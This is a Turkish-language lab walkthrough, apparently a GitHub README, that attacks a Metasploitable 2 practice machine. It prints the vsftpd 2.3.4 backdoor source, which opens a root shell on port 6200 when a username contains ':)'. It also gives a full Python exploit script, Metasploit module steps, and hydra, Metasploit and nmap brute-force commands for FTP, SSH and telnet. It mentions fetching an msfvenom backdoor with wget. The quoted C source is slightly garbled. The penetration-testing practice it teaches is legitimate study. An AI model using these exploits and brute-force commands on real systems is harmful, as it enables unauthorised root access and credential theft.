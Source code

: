 ## Metasploitable 2

`nmap -sS -sV -Pn -n --top-ports 10 -o nmap.txt 192.168.1.41` Şeklinde metasploitable 2 üzerinde bir nmap taraması gerçekleştirdim.

> 21/tcp   open   ftp           vsftpd 2.3.4

Yukarıdaki satırda 21. portta ftp servisinin çalıştığı görünüyor ve bize sürümü verilmiş 21. porta odaklanıp neler yapabileceğimize bakalım (`nmap 192.168.1.41 -p 21 –script vuln şeklinde bir tarama ilede zafiyet tespit edilebilir).` Bunun yanında **“searchsploit”** aracı ile **“exploit-db”** üzerinde arama da gerçekleştirilebilir.

FTP Protokolünün **vsftpd 2.3.4** versiyonunda bir güvenlik zafiyeti var, güvenlik zafiyetinin açığa çıktığı dosta **str.c** isimli dosyanın aşağıdaki satırında ortaya çıkıyor.

```c
ınt
 str_contains_line(const struct mystr* p_str, const struct mystr* p_line_str){
static struct mystr s_curr_line_str;
unsigned int pos = 0;
while (str_getline(p_str, &s_curr_line_str, &pos)){
    if (str_equal(&s_curr_line_str, p_line_str)){
        return 1;}
    else if((p_str->p_buf[i]==0x3a) && (p_str->p_buf[i+1]==0x29)){
        vsf_sysutil_extra();}}
return 0;}
```

Burada zaten her şey ortada. Alınan dize değerini ayrıştırma sırasıda **p_buf[i]==0x3a && p_buf[i+]==0x29 ise vsf_sysutil_extra()** isimli fonksiyonu çağırıyor. Burada ki hex **0x3a ‘:’, 0x29 ise ASCII ‘)’ tekabul ediyor yani “\x3a\x29” == ‘:)’ smileyy :). vsf_sysutil_extra()** fonksiyonunun içeriği ise aşağıdaki gibi.

```c
//sysdeputil.c
int
vsf_sysutil_extra(****)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1); 
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  { 
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0); 
  }}
```

Daha önce **soket** programlama ile ilgilendiyseniz burayı rahatlıkla anlayabilirsiniz burada **6200** portu dinleniyor ve gelen bağlantı kabul edilip bütün veriler **"/bin/sh"** (Bu satırdan anlayabiliriz `execl("/bin/sh","sh",(char *)0);`) shell inde çalıştırılarak çıktısı karşıya gönderiliyor. Yaani Kısacası ben netcat ile 21. porta bağlanıp kullanıcı adımın **":)"** karakterlerini içerecek şekilde girersem ve parolayıda kafamdan sallarsam bu fonksiyon çalışacak ve ben tekrardan **6200** portundan netcat ile bağlanıp sistemde bir arkakapı açmış olacağım hemen deniyelim. `netcat 192.168.1.41 21` Şeklinde 21. porta bağlandıktan sonra **"USER erdogan:)" ve "PASS salladım"** şeklinde bir veri girdim daha sonra yeni terminal açıpta netcat `192.168.1.41 6200` komutunu çalıştırarak sisteme sızmayı başardım whoami komutunu çalıştırdıktan sonra root çıktısını gördüm sistemde root olduktan sonrada artık her şey yapabiliriz.

Güvenlik Açığını tespit ettikten sonra istersen kendi scriptimizi de yazabiliriz.

```python
#! /usr/bin/env python3
#-*- coding:UTF-8 -*-
import sys,os,socket
if __name__ == '__main__':
	if len(sys.argv) != 3:
		print('\033[91m' + '[!] Usage: python3 exploit_vsftpd_2.3.4.py [TARGET_IP] [PORT]' +'\033[0m')
	target,port = sys.argv[1],sys.argv[2]
	print('\033[93m' + "Target: {}:{}".format(target,port) + '\033[0m')
	socket = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
	try:
		socket.connect((target,int(port)))
	except KeyboardInterrupt:
		sys.exit()
	except Exception:
		print('\033[91m' + "[!] Can't connected to target please check your entery ..." + '\033[0m')
	try:
		version = socket.recv(1024).decode('UTF-8')
		if '220 (vsFTPd 2.3.4)' in version:
			socket.send('USER hi:)\n'.encode('UTF-8'))
			socket.recv(1024).decode('UTF-8')
			socket.send('PASS iamroot\n'.encode('UTF-8'))
			socket.close()
			print('\033[92m' + '[-] Netcat starting ... \n[-] You are IN ...' + '\033[0m')
			os.system('netcat {} 6200'.format(target))
		else: print('\033[91m' + "[!] 220 (vsFTPd 2.3.4) is not working on port: {}".format(port) + '\033[0m')
	except KeyboadInterrupt:
		sys.exit()
	except Exception:
		print('\033[91m' + "[!] Can't connected to target please check your entery ...\n[!] Maybe NetCat is not 
installed on your system please check it ..." + '\033[0m')

```

Yukarıda güvenlik python ile yazılmış bir script var bu zafiyeti sömürmek için kullanılabilir. Sisteme girdikten sonra `python -c "import pty; pty.spawn('/bin/bash')"` komutu ile bir bash shell acılabilir. Metasploit ilede sömürülebilir vsftpd 2.3.4 için yazılmış exploit mevcut metasploitte.

```bash
msfconsole -q
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.1.41
set RPORT 21
exploit
```

Sisteme sızdıktan sonra msfvenom ile .elf formatında bir backdoor oluşturup hedef sistemden wget komutu ile çekip çalıştırdıktan sonra meterpreter session alabiliriz.

Bunların dışında ftp portuna hydra aracı ile kaba kuvvet saldırısıda yapılabilir.

`hydra -t 2 -L [users.txt] -P [pass.txt] -M [target_ıp_file] -s [port] ftp`

> 22/tcp   open   ssh           OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

Yularıdaki satırda 22. portta ssh servisinin çalıştığını görüyoruz ve sürümüde hemen karşısında yazıyor internette araştırma yaparak ssh ın bu sürümüne ait bir zafiyet farmı ona bakalım. Bu aşamada 22. porta kaba kuvvet saldırısı yapabiliriz. Bunun için metasploitte "ssh" diye bir arama yapalım.

```bash
msfconsole -q
search ssh
```

`auxiliary/scanner/ssh/ssh_login` İşimize yarayabilir.

```bash
use auxiliary/scanner/ssh/ssh_login
show options
set RHOST 192.168.1.41
set RPORT 22
set USER_AS_PASS true
set USER_FILE /home/eredot_pkfr/Desktop/user.txt
set USERPASS_FILE /home/eredot_pkfr/Desktop/pass.txt
```

Bize msfadmin:msfadmin şeklinde giriş yapmayı denediğini ve başarılı olduğunu söylüyor kullanıcı adı ve parolayı bulduk şimdi ise `ssh msfadmin@192.168.1.41` komutunu çalıştırıp sisteme msfadmin kullanıcısı olarak giriş yapabiliriz. Kaba Kuvvet saldırısı için hydra Script te kullanılabilir.

`hydra -t 4 -L /home/eredot_pkfr/Desktop/user.txt -P /home/eredot_pkfr/Desktop/pass.txt ssh://192.168.1.41`

Nmap içerisindeki NSE scriptleride kullanılabilir.

`nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s 192.168.1.41`

> 23/tcp   open   telnet        Linux telnetd

```bash
msfconsole
use auxiliary/scanner/telnet/telnet_login
set rhosts 192.168.1.41
set user_file /home/eredot_pkfr/Desktop/user.txt
set pass_file /home/eredot_pkfr/Desktop/pass.txt
set stop_on_success true
exploit
```

> [+] 192.168.1.41:23       - 192.168.1.41:23 - Login Successful: msfadmin:msfadmin

Satırını yakladık kaba kuvvet saldırısı ile telnet kullanıcı adı ve parolasını ele geçirdik. şimdi ise telnet bağlantısı kurabiliriz. `telnet 192.168.1.41 23`

